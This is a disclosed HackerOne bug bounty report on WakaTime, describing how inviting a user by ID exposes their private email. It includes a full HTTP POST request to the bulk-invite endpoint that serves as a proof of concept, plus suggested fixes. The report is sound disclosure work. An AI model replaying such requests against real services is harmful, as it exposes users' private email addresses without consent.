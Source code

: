 # User Email Disclosure via ID-Based Invitation

## Report Details
- **Report ID**: 3003716
- **URL**: https://hackerone.com/reports/3003716
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2025-02-20T16:14:54.781Z
- **Disclosed**: 2025-02-22T02:13:05.210Z

## Reporter
- **Username**: m_kamal1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wakatime

## Vulnerability Information
###Summary:
The issue occurs when inviting a user by their WakaTime ID. If a user has set their email to private, their email address still appears when they are invited using their ID. This contradicts the privacy settings and could lead to unintended email exposure.

###Steps to Reproduce:
1- When a user sets their email to private, anyone attempting to view it will see a page like this:
{F4074476}

2- An attacker can use the user’s ID to invite them to their organization by either pasting the ID in the invitation section or send the invite request it looks like this:
```
POST /api/v1/users/current/orgs/59a5809f-2ba1-43de-b6d7-3ca104b79d80/people.bulk HTTP/2
Host: wakatime.com
Cookie: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.2651.74
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://wakatime.com/settings/orgs/59a5809f-2ba1-43de-b6d7-3ca104b79d80/people
Content-Type: application/json
X-Csrftoken: 9d881d42b2b05abc4b1e057b6f6dd058d394be28554afb508fcf988ed24ff283
X-Requested-With: XMLHttpRequest
Content-Length: 58
Origin: https://wakatime.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: red
Priority: u=0
Te: trailers

{"people":[{"id":"<victim_id>"}]}
```
3- After that, the victim's email will be disclosed.

###Suggested Fix:
- Ensure that email addresses remain hidden in all cases where a user has opted to keep them private.
- If inviting by ID, display only the username or a masked identifier rather than exposing the email.

## Impact

- Email Address Disclosure: Users who believe their email is hidden may have it exposed to others.
- Privacy Violation

## Attachments
- image.png
